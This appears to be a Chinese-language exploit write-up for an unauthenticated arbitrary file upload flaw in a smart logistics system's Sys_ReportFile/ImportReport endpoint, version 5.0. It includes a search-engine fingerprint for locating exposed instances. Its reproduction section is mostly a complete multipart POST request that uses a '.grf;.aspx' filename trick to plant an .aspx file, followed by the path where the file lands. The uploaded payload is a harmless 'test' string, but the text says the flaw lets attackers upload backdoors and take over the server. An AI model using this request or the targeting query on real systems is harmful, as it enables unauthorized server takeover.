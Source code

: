 # 易思智能物流无人值守系统ImportReport任意文件上传漏洞

# 一、漏洞简介
易思无人值守智能物流系统是一款集成了人工智能、机器人技术和物联网技术的创新产品。它能够自主完成货物存储、检索、分拣、装载以及配送等物流作业，帮助企业实现无人值守的智能物流运营，提高效率、降低成本，为现代物流行业带来新的发展机遇。Sys_ReportFile/ImportReport接口处存在任意文件上传漏洞，未经授权的攻击者可通过此漏洞上传恶意后门文件，从而获取服务器权限。

# 二、影响版本
+ 易思智能物流无人值守系统5.0

# 三、资产测绘
+ hunter`web.body=="易思无人值守智能物流"`
+ 登录页面

![1693024220415-3267a1b1-e688-4081-8abc-9bc7ee3c98f5.png](./img/b79hLMH0rZJLZ-gK/1693024220415-3267a1b1-e688-4081-8abc-9bc7ee3c98f5-749693.png)

# 四、漏洞复现
```plain
POST /Sys_ReportFile/ImportReport?encode=b HTTP/1.1
Content-Type: multipart/form-data; boundary=00content0boundary00
User-Agent: Java/1.8.0_381
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 130
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="test.grf;.aspx"

test
--00content0boundary00--
```

---

![1693024452182-530d1309-112a-492f-939f-765a7d836023.png](./img/b79hLMH0rZJLZ-gK/1693024452182-530d1309-112a-492f-939f-765a7d836023-787469.png)

上传文件位置

```plain
http://xx.xx.xx.xx/GRF/Custom/b.aspx
```

![1693024495082-6622e59c-5e8c-4660-9a4f-d88ebac7c226.png](./img/b79hLMH0rZJLZ-gK/1693024495082-6622e59c-5e8c-4660-9a4f-d88ebac7c226-123038.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uklfg9x4h2md4vgi>